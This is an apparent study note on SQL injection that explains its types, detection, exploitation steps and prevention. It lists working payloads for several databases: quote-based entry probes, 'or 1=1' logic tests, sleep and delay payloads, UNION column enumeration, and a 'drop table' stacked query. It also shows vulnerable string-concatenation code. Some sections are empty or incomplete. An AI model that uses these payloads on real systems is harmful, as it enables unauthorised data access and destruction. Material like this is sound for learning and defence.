

# SQL Injection

## What is SQL Injection?
An SQL injection is a security flaw that allows attackers to interfere with database queries of an application. This vulnerability can enable attackers to view, modify, or delete data they shouldn't access, including information of other users or any data the application can access. Such actions may result in permanent changes to the application's functionality or content or even compromision of the server or denial of service.

## Where does SQL Injection occur?

Any user inputs almost occur within the WHERE clause of a SELECT query. A web page or web application that has an SQL Injection vulnerability uses such user input directly in an SQL query.

Example of user's input:



```sql
# Define POST variables
uname = request.POST['username']
passwd = request.POST['password']

# SQL query vulnerable to SQLi
sql = “SELECT id FROM users WHERE username=’” + uname + “’ AND password=’” + passwd + “’”

# Execute the SQL statement
database.execute(sql)
```

```sql
SELECT id FROM users WHERE username='admin' or 1=1-- password='password';
```

## Types of SQL Injection Attack

### In-Band SQL Injection

In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.

**Error-Based SQL Injection**

> This type of SQL Injection is the most useful for easily obtaining information about the database structure, as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database. 


**Union-Based SQL Injection**

> This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.


### Blind SQL Injection

Blind SQLi is when we get little to no feedback to confirm sqli, because the error messages have been disabled, but the injection still works regardless.

**Authentication Bypass**

> One of the most straight forward Blind SQL Injection techniques is when bypassing authentication methods such as login forms. In this instance, we aren't that interested in retrieving data from the database; We just want to get past the login. 


> Taking the above information into account, it's unnecessary to enumerate a valid username/password pair. We just need to create a database query that replies with a yes/true.

**Boolean Based**

> Boolean-based SQL Injection refers to the response we receive from our injection attempts, which could be a true/false, yes/no, on/off, 1/0 or any response that can only have two outcomes. That outcome confirms that our SQL Injection payload was either successful or not. 


> Because response is true/false, we can't get database's name. So we can try many time with name:


**Time-Based**

> A time-based blind SQL injection is similar to boolean-based one in that the same requests are sent, but don't have any response is true/false. Instead, your indicator of a correct query is based on the time the query takes to complete. 

> False


> True


### Out-Band SQL Injection

Out-of-band SQL Injection isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.

An Out-Of-Band attack is classified by having two different communication channels, one to launch the attack and the other to gather the results. For example, the attack channel could be a web request, and the data gathering channel could be monitoring HTTP/DNS requests made to a service you control.

1) An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.

2) The Website makes an SQL query to the database, which also passes the hacker's payload.

3) The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.


### How to detect SQL Injection?
- The single quote character ' and look for errors or other anomalies
- Boolean conditions such as OR 1=1 and OR 1=2, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- Add a statement after input's user

### How to exploit SQL Injection?

**Entry point detection**

The first step is to understand how to inject data into the query without disrupting it. Example: 

``` [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

**Comments**

```sql
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/
```

**Confirming with logical operations**

```
page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false
```

**Confirming with Timing**

In some cases you won't notice any change on the page you are testing. Therefore, a good way to discover blind SQL injections is making the DB perform actions and will have an impact on the time the page need to load.

```sql
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

**Exploiting Union Based**

Detecting number of columns

> Use Order/Group by

```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

UNION SELECT

```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

**Extract database names, table names and column names**

https://portswigger.net/web-security/sql-injection/cheat-sheet


**Exploiting Error based**

In error-based SQL injection, the attacker tries to insert a malicious query with the goal of receiving an error message that provides sensitive information about the database.

Example: I add a single quote after 123

```
https://example.com/index.php?name=123’
```

and database return a error:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘‘VALUE’’.
```

-> Database: MySQL, syntax error, where is the syntax error occur

**Exploiting Blind SQLi**

In this case you cannot see the results of the query or the errors, but you can distinguished when the query return a true or a false response because there are different contents on the page.

**Exploiting Time Based SQLi**

```sql
1 and select sleep(10) from users where table_name like 'abc%'#
```

if(time >= 10) -> true

else -> false

### How to prevent SQL Injection?

**Don’t allow multiple statements**

If you have 2 statement in the query, it allow first statement can be executed. Statement 2 must not be executed.

As default, client.query() method only execute 1 statement -> prevent SQL Injection


if multipleStatements is true, client.query() method can execute multiple statement, for example:

```sql
select * from user; drop table user_info;
```

-> It's harmful for database


**Use placeholders**

You should never accept input from a user and input it into query string. 

By using placeholders, the malicious SQL will be escaped and treated as a raw string, not as actual SQL code.

**Input validation**

Input don't have special characters


-> Accept a-z, A-Z


Result:

